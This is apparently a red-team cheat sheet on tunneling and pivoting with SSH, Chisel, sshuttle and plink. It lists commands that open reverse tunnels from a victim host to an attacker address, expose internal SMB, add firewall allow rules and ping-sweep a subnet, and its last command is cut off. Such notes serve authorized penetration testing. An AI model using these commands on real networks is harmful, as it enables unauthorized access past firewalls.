 # Tunneling / Port Forwarding / Pivoting  
 Expose internal services, usually hidden due to firewall rules or gain further access into a network. 

[Pivot cheat sheet](https://assets.contentstack.io/v3/assets/blt36c2e63521272fdc/blt0f228a4b9a1165e4/5ef3d602395b554cb3523e7b/pivot-cheat-sheet-v1.0.pdf)   
[Pivoting for Red Teamers](https://artkond.com/2017/03/23/pivoting-guide/)   
[Basic Tuneling](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)  
 
 - [Tunneling / Port Forwarding / Pivoting](#tunneling---port-forwarding---pivoting)
  * [Chisel](#chisel)
    + [Chisel socks Reverse Proxy](#chisel-socks-reverse-proxy)
    + [Chisel socks Forward Proxy](#chisel-socks-forward-proxy)
    + [Chisel Remote Port Forward](#chisel-remote-port-forward)
    + [Chisel Local Port Forward](#chisel-local-port-forward)
- [Linux Port Forwarding](#linux-port-forwarding)
  * [SShuttle](#sshuttle)
- [Windows Port Forwarding](#windows-port-forwarding)
  * [SSH (Window 10 and newer)](#ssh--window-10-and-newer-)
  * [Plink.exe](#plinkexe)

## SSH 
### Local Tunnels 
Local tunnel from Kali attack box through a pivot to a service on target 

    ssh -p <port> user@pivot -L <local port on attack box>:<target host>:<target port> 
    
### Remote Tunnels
Remote tunnel to Kali through a pivot from target (may need to join tunnels depending on config)  

    ssh -R <Kali port>:localhost:<target port> user@<pivot ip> 
### Dynamic Tunnels 
To scan through a tunnel

    ssh -D 9050 user@localhost -p <port on kali used for tunnel> 

Then running scans through proxychains 

    proxychains nmap -sV <target> 
 ## Chisel 
[Chisel](https://github.com/jpillora/chisel)   
[Pivoting with Chisel Guide](https://ap3x.github.io/posts/pivoting-with-chisel/)  
Good for getting through firewalls, need correct copies of binaries on both target / attack box  
Need to change /etc/proxychains4.conf socks4 to socks5 on attack box 
### Chisel socks Reverse Proxy 
    attack    ./chisel server -p LISTEN_PORT --reverse &  
    target    ./chisel client ATTACKING_IP:LISTEN_PORT R:socks & 
### Chisel socks Forward Proxy 
    target    ./chisel server -p LISTEN_PORT --socks5  
    attack    ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks 
### Chisel Remote Port Forward 
    attack    ./chisel server -p LISTEN_PORT --reverse &  
    target    ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT & 
### Chisel Local Port Forward 
    target    ./chisel server -p LISTEN_PORT 
    attack    ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT 
 
 # Linux Port Forwarding 
 
 ## SShuttle
  If pivot is a Linux box with python installed you can ssh into: can use [sshuttle](https://github.com/sshuttle/sshuttle) to connect into network. 
  
      apt-get install sshuttle 
      sshuttle -r user@10.10.10.10 --ssh-cmd "ssh -i id_rsa" 10.10.0.0/24 -x [pivot ip]
 
 
 
 # Windows Port Forwarding 
     netsh firewall show config 
     netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT      
## SSH (Window 10 and newer)
     [from target box to expose SMB ]
     ssh -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS 
## Plink.exe
     [upload plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)  
     plink.exe -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS   <-note entering in your password on a victim box is a bad idea
     
     [generate ssh keys on kali, convert to putty keys and then upload with plink.exe to target ] 
     sudo apt install putty-tools 
     puttygen KEYFILE -o OUTPUT_KEY.ppk 
     cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N 
     
# Scanning though a pivot 
uploading static binaries from [here](https://github.com/andrew-d/static-binaries)  

## Commands 

### Linux 

    arp -a
    cat /etc/hosts
    cat /etc/resolv.conf  
   
    for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " " 

